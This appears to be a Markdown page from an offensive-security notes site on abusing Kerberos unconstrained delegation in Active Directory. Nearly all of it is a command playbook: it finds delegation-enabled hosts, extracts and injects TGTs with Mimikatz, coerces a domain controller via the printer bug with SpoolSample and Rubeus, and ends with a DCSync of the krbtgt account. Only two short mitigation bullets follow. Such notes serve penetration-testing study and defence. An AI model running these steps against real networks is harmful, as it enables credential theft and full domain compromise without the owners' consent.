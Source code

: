 ```yaml
---
title: "Unconstrained Delegation"
description: "Privilege escalation using unconstrained delegation."
lead: "Using unconstrained delegation for privilege escalation in Active Directory with PowerView, Mimikatz, and Rubeus."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_privilege_escalation"
weight: 30
toc: true
---
```


## General

- When set for service account, allows delegation to any service to any resource on the domain as a user
- When enabled, DC places user's TGT inside TGS when user requests access to service with unconstrained delegation enabled
- Server extracts TGT from TGS and stores it in LSASS
- Server can reuse the user's TGT to access resoruces
- Escalate privileges when extracting TGT from Domain Admins or other HVTs
- Note: need local admin access on the machine to extract tickets

## Exploitation

```powershell
# Get computers that have unconstrained delegation enabled
# Using PowerView
Get-NetComputer -Unconstrained

# Using AD Module
Get-ADComputer -Filter { TrustedForDelegation -eq $true }
Get-ADUser -Filter { TrustedForDelegation -eq $true }

# ldapdomaindump
ldapdomaindump -u "DOMAIN\\Account" -p "Password123*" 10.10.10.10   
grep TRUSTED_FOR_DELEGATION domain_computers.grep

# CrackMapExec
crackmapexec ldap 10.10.10.10 -u username -p password --trusted-for-delegation

# Monitor DA logins on computer
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose

# Check if we have local admin access on that machine using PowerView
Find-LocalAdminAccess -ComputerName dcorp-appsrv

# Get session on machine as local admin and check for tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

# Export tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Inject ticket into session
Invoke-Mimikatz -Command '"kerberos:ptt ticket.kirbi"'
```

## Printer Bug

- Trick HVT to connect to machine with Unconstrained Delegation enabled
- Force Domain Admin to connect to specific machine
- https://github.com/leechristensen/SpoolSample

```powershell
# Start capturing for TGTs using Rubeus
.\Rubeus.exe monitor /interval:5 /nowrap

# Run MS-RPRN.exe
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appserv.dollarcorp.moneycorp.local

# From https://github.com/leechristensen/SpoolSample
.\SpoolSample.exe VICTIM-DC-NAME UNCONSTRAINED-SERVER-DC-NAME
.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
# DC01.HACKER.LAB is the domain controller we want to compromise
# HELPDESK.HACKER.LAB is the machine with delegation enabled that we control.

# From https://github.com/dirkjanm/krbrelayx
printerbug.py 'domain/username:password'@<VICTIM-DC-NAME> <UNCONSTRAINED-SERVER-DC-NAME>

# From https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc#gistcomment-2773689
python dementor.py -d domain -u username -p password <UNCONSTRAINED-SERVER-DC-NAME> <VICTIM-DC-NAME>

# Copy base64 encoded TGT, remove extra spaces and inject it on attacker machine
.\Rubeus.exe ptt /ticket:ticket.kirbi

# Run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Mitigation

- Limit DA/Admin logins to specific servers
- Set "Account is sensitive and cannot be delegated" for privileged accounts

## Further Reading

- [HackTricks: Unconstrained Delegation](https://book.hacktricks.xyz/windows/active-directory-methodology/unconstrained-delegation)
- [PayloadsAllTheThings: Kerberos Unconstrained Delegation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#kerberos-unconstrained-delegation)
- [iRedTeam: Kerberos Unconstrained Delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
- [iRedTeam: Domain Compromise via DC Print Server and Kerberos Delegation](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)
- [Security Focus: Analysing Account is Sensitive and cannot be Delegated for Privileged Accounts](https://docs.microsoft.com/en-us/archive/blogs/poshchap/security-focus-analysing-account-is-sensitive-and-cannot-be-delegated-for-privileged-accounts)
- [SpecterOps: Hunting in Active Directory: Unconstrained Delegation & Forest Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
